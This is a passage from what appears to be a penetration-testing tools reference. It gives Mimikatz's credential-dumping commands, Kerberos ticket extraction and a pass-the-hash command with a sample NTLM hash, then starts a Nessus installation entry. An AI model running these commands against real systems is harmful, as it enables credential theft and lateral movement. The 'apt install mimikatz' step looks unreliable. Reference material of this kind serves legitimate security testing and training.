**Description**: Tool for extracting plaintextext passwords, hashes, pins, and Kerberos tickets from memory.

**Installation**:
```bash
# Download from GitHub
# https://github.com/gentilkiwi/mimikatz/releases

# Run on Windows
# On Linux, can use Wine or for similar functionality with native tools
sudo apt install mimikatz
```

**Core Commands**:
```bash
# On Windows (privilege required)
mimikatz.exe

# Extract passwords from memory
privilege::debug
sekurlsa::logonpasswords

# Extract Kerberos tickets
sekurlsa::tickets

# Pass-the-Hash
sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:e2b475c11da2a0748290d87aa966c327
```

**Use Cases**:
- Credential extraction and theft
- Pass-the-Hash/Pass-the-Ticket attacks
- Kerberos attacks
- Authentication analysis

**Alternatives**:
- LaZagne
- CredDump
- Windows Credential Editor

### Nessus Essentials

**Description**: Vulnerability scanning platform with comprehensive detection capabilities (free version limited to 16 IPs).

**Installation**:
```bash
# Download from Tenable website
# https://www.tenable.com/products/nessus/nessus-essentials

# Install the package
sudo dpkg -i Nessus-<version>.deb

# Start Nessus service
sudo systemctl start nessusd
```
